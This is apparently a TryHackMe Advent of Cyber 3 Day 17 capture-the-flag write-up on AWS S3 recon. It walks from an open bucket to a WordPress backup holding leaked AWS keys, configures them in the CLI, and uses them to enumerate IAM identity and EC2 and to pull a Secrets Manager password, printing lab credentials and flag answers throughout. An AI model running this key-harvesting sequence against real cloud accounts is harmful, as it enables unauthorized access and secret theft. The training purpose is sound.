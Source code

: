 # TryHackMe [Advent of Cyber 3](https://tryhackme.com/room/adventofcyber3) Day 17

### References

-   Cyber Insecurity. (2021). Advent of Cyber 3 (2021) - AWS S3 Recon & Data Exfil - Elf Leaks - TryHackMe [YouTube Video]. In YouTube. https://youtu.be/RAgvdpvKJa0

## What is the name of the S3 Bucket used to host the HR Website announcement?

-   The AWS CLI was installed in my Kali Linux environment by running `sudo apt install awscli`.
-   The provided email (URL of <https://s3.amazonaws.com/images.bestfestivalcompany.com/flyer.png>) suggests the S3 bucket name:
    ![PNG from AWS S3](https://s3.amazonaws.com/images.bestfestivalcompany.com/flyer.png)

**Answer**: `images.bestfestivalcompany.com`

## What is the message left in the `flag.txt` object from that bucket?

```
$ curl https://s3.amazonaws.com/images.bestfestivalcompany.com/flag.txt
It's easy to get your elves data when you leave it so easy to find!
```

**Answer**: `It's easy to get your elves data when you leave it so easy to find!`

## What other file in that bucket looks interesting to you?

-   The `wp-backup.zip` stands-out because rarer-in-comparison file extension:

```bash
$ aws s3 ls s3://images.bestfestivalcompany.com --no-sign-request
2021-11-13 10:06:51       6148 .DS_Store
2021-11-13 07:43:03     108420 0vF39p3.png
2021-11-27 06:55:21     705191 AWSConsole.png
2021-11-13 07:43:03       5652 aws-logo.png
2021-11-13 10:06:51         68 flag.txt
2021-11-13 10:06:51    2349068 flyer.png
2021-11-13 07:43:03      92531 presents.jpg
2021-11-13 07:43:03       4680 tree.png
2021-11-23 18:52:22   16556739 wp-backup.zip
```

**Answer**: `wp-backup.zip`

## What is the AWS Access Key ID in that file?

1. Downloads the WordPress back-up archive:

```bash
$ aws s3 cp s3://images.bestfestivalcompany.com/wp-backup.zip . --no-sign-request
download: s3://images.bestfestivalcompany.com/wp-backup.zip to ./wp-backup.zip
$ unzip wp-backup.zip
```

2. `grep` for the common access key prefix `AKIA`:

```bash
$ grep "AKIA" wp_backup/*
wp_backup/wp-config.php:define('S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI');
```

**Answer**: `AKIAQI52OJVCPZXFYAOI`

## What is the AWS Account ID that access-key works for?

1. From `grep`ping for the access key ID, we can find the access key secret and other details in the file `wp_backup/wp-config.php`:

```php
define('S3_UPLOADS_BUCKET', 'images.bestfestivalcompany.com');
define('S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI');
define('S3_UPLOADS_SECRET', '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');
define('S3_UPLOADS_REGION', 'us-east-1');
```

2. Create a new local AWS CLI profile using the details from the PHP code:

```bash
$ aws configure --profile thm
AWS Access Key ID [None]: AKIAQI52OJVCPZXFYAOI
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]:
```

3. Obtain the account ID number:

```bash
$ aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI --profile thm
{
	"Account": "019181489476"
}
```

**Answer**: `019181489476`

## What is the Username for that access-key?

```bash
$ aws sts get-caller-identity --profile thm
{
	"UserId": "AIDAQI52OJVCFHT3E73BO",
	"Account": "019181489476",
	"Arn": "arn:aws:iam::019181489476:user/ElfMcHR@bfc.com"
}
```

**Answer**: `ElfMcHR@bfc.com`

## There is an EC2 Instance in this account. Under the TAGs, what is the Name of the instance?

```bash
$ aws ec2 describe-instances --output text --profile thm
RESERVATIONS    019181489476    043234062703    r-0e89ba65b28a7c699
INSTANCES       0       x86_64  HR-Po-Insta-1NAKAMW2PPVMT       False   True    xen     ami-0c2b8ca1dad447f8a   i-0c56041ac61cf5a95     t3a.micro       hr-key  2021-11-13T12:36:58.000Z        Linux/UNIX      ip-172-31-68-81.ec2.internal    172.31.68.81               /dev/xvda       ebs     True    User initiated (2021-11-13 12:42:39 GMT)        subnet-00b1107c0c18c0722        RunInstances    2021-11-13T12:36:58.000Z        hvm     vpc-0235b5a9591606b73
BLOCKDEVICEMAPPINGS     /dev/xvda
EBS     2021-11-13T12:36:59.000Z        True    attached        vol-0ac79339aac8b249d
CAPACITYRESERVATIONSPECIFICATION        open
CPUOPTIONS      1       2
ENCLAVEOPTIONS  False
HIBERNATIONOPTIONS      False
METADATAOPTIONS enabled disabled        1       optional        applied
MONITORING      disabled
NETWORKINTERFACES               interface       16:35:78:d8:60:d1       eni-027945da0ddb79e59   019181489476    ip-172-31-68-81.ec2.internal    172.31.68.81    True    in-use  subnet-00b1107c0c18c0722        vpc-0235b5a9591606b73
ATTACHMENT      2021-11-13T12:36:58.000Z        eni-attach-0d91e2137f6014220    True    0       0       attached
GROUPS  sg-0c6e7cd87c1c8d035    default
PRIVATEIPADDRESSES      True    ip-172-31-68-81.ec2.internal    172.31.68.81
PLACEMENT       us-east-1f              default
SECURITYGROUPS  sg-0c6e7cd87c1c8d035    default
STATE   80      stopped
STATEREASON     Client.UserInitiatedShutdown    Client.UserInitiatedShutdown: User initiated shutdown
TAGS    aws:cloudformation:stack-id     arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7
TAGS    aws:cloudformation:logical-id   Instance
TAGS    created_by      Elf McHR
TAGS    aws:cloudformation:stack-name   HR-Portal
TAGS    Name    HR-Portal
```

**Answer**: `HR-Portal`

## What is the database password stored in Secrets Manager?
1. Get secret name:
```bash
$ aws secretsmanager list-secrets --profile thm
{
	"SecretList": [
		{
			"ARN": "arn:aws:secretsmanager:us-east-1:019181489476:secret:HR-Password-8AkWYF",
			"Name": "HR-Password",
			"Description": "Portal DB Secret",
			"LastChangedDate": 1637717347.812,
			"LastAccessedDate": 1639785600.0,
			"Tags": [
				{
					"Key": "aws:cloudformation:stack-name",
					"Value": "HR-Portal"
				},
				{
					"Key": "aws:cloudformation:logical-id",
					"Value": "FalseSecret"
				},
				{
					"Key": "aws:cloudformation:stack-id",
					"Value": "arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7"
				},
				{
					"Key": "created_by",
					"Value": "Elf McHR"
				},
				{
					"Key": "Name",
					"Value": "Payroll"
				}
			],
			"SecretVersionsToStages": {
				"70630b3c-4fbe-4a24-885d-18445bd808b1": [
					"AWSCURRENT"
				],
				"a702190e-69f7-4a8a-81fd-3d20b486657a": [
					"AWSPREVIOUS"
				]
			},
			"CreatedDate": 1636807016.521
		}
	]
}
```
2. Retrieve the secret value for region `us-east-1`:
```bash
$ aws secretsmanager get-secret-value --secret-id HR-Password --profile thm
{
	"ARN": "arn:aws:secretsmanager:us-east-1:019181489476:secret:HR-Password-8AkWYF",
	"Name": "HR-Password",
	"VersionId": "70630b3c-4fbe-4a24-885d-18445bd808b1",
	"SecretString": "The Secret you're looking for is not in this **REGION**. Santa wants to have low latency to his databases. Look closer to where he lives.",
	"VersionStages": [
		"AWSCURRENT"
	],
	"CreatedDate": 1637717347.718
}
```
3. Retrieve the secret value for region `eu-north-1`:
```bash
$ aws secretsmanager get-secret-value --secret-id HR-Password --profile thm --region eu-north-1
{
	"ARN": "arn:aws:secretsmanager:eu-north-1:019181489476:secret:HR-Password-KIJEvK",
	"Name": "HR-Password",
	"VersionId": "f806c3cd-ea20-4a1a-948f-80927f3ad366",
	"SecretString": "Winter2021!",
	"VersionStages": [
		"AWSCURRENT"
	],
	"CreatedDate": 1636809979.996
}
```

**Answer**: `Winter2021!`
